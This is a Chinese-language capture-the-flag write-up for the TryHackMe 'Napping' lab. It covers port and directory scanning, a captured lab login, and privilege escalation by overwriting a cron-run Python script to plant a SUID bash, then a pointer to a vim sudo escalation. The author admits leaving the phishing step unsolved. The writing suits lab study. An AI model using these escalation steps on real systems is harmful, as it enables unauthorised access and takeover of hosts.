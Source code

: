 ```yaml
---
sidebar_position: 147
tags: [Easy, Linux, 定时任务, 钓鱼, SUDO]
title: "Napping"
description: "Napping"
sidebar_label: "Napping"
slug: /tryhackme/147
---
```


# Napping

## 端口扫描

```bash
root@ip-10-10-20-92:~# nmap -sTCV -p- --min-rate 1000 10.10.206.250

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-05 11:42 BST
Nmap scan report for ip-10-10-206-250.eu-west-1.compute.internal (10.10.206.250)
Host is up (0.00020s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
MAC Address: 02:E0:FD:85:5A:F7 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.63 seconds
```

## 80

```bash
root@ip-10-10-20-92:~# gobuster dir -u http://10.10.206.250/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.206.250/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/10/05 11:45:38 Starting gobuster
===============================================================
/register.php (Status: 200)
/index.php (Status: 200)
/admin (Status: 301)
/welcome.php (Status: 302)
/logout.php (Status: 302)
/config.php (Status: 200)
/server-status (Status: 403)
===============================================================
2023/10/05 11:46:34 Finished
===============================================================
```

访问页面发现可以注册账号, 注册之后访问站点发现其功能是让管理员审查我们的页面, 我本来想的是 XSS 漏洞, 但是构造了半天还是没有办法完成操作, 查看 WP 后才发现是钓鱼, 仿照 WP 进行操作自己不知道为什么一直不成功, 先空着等回头自己知道怎么解决了再补, 最后我们可以收集到一个账号

```bash
daniel:C@ughtm3napping123
```

## 后渗透

### daniel

利用得到的密码直接登陆即可

![image-20240709182211647](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-182213.png)

### daniel —> adrian

我在用户 adrian 的家目录发现一个 py 脚本, 从我的观察来看这是一个定时任务并且刚好对应的 py 脚本我们有权修改所以可以基于此进行操作

```bash
daniel@napping:/home/adrian$ ls -al
total 48
drwxr-xr-x 6 adrian adrian         4096 Oct  5 13:10 .
drwxr-xr-x 4 root   root           4096 Mar 15  2022 ..
-rw-rw-r-- 1 adrian administrators   79 Oct  5 13:00 query.py
-rw-rw-r-- 1 adrian adrian           75 Mar 16  2022 .selected_editor
drwx------ 3 adrian adrian         4096 Oct  5 13:10 snap
-rw-r----- 1 root   adrian           56 Mar 16  2022 user.txt
daniel@napping:/home/adrian$ cat << EOF > query.py 
> import os
> os.system('cp /bin/bash /tmp/bash')
> os.system('chmod u+s /tmp/bash')
> EOF
# 等待一分钟后检查即可
daniel@napping:/home/adrian$ ls -al /tmp/bash
-rwsr-xr-x 1 adrian adrian 1183448 Oct  5 13:01 /tmp/bash
daniel@napping:/home/adrian$ /tmp/bash -p
bash-5.0$ id
uid=1001(daniel) gid=1001(daniel) euid=1000(adrian) groups=1001(daniel),1002(administrators)
```

### adrian —> root

执行发现用户 adrian 存在 sudo 特权 [vim#sudo](https://gtfobins.github.io/gtfobins/vim/#sudo)

![image-20240709182225161](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-182226.png)